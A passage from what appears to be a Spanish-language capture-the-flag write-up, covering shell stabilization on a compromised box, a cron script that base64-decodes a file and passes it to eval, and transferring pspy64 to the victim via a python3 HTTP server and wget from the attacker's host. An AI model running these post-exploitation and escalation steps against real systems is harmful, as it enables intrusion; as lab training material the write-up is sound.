 ```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user kvzlx

Si nos vamos a la `home` de `kvzlx` veremos un archivo bastante interesante llamado `.cron_script.sh` que si lo leemos veremos lo siguiente:

```bash
#!/bin/bash
ENC_PASS=$(cat /var/www/html/.wp-encrypted.txt)
DECODED_PASS=$(echo $ENC_PASS | base64 -d)

echo $DECODED_PASS > /tmp/decoded.txt

eval "$DECODED_PASS"
```

Vemos que esta decodificando su propia `password` en `/tmp` sin ningun tipo de sanitizacion, pero si nos vamos a la carpeta `/tmp`, veremos el archivo `decoded.txt` pero si lo leemos no lleva nada dentro, por lo que algo no esta ejecutando bien.

Tambien podemos observar que puede ser que se este ejeuctando un `crontab` cada cierto tiempo sobre ese archivo, vamos a investigar mas en los procesos a ver que esta pasando.

Si hacemos `ps -aux` no veremos mucho mas, por lo que utilizaremos la herramienta `pspy64` que nos ayudara a todo esto, para ver de mejor forma que esta pasando de forma interna.

En nuestro `host` nos descargaremos la herramienta:

URL = [Download pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64)

Una vez que la tengamos en nuestro `host` abriremos un servidor de `python3` para pasarnos el archivo a la maquina victima:

```shell
python3 -m http.server
```

Y en la maquina victima haremos lo siguiente:

```shell
cd /tmp
wget http://<IP>:8000/pspy64
```
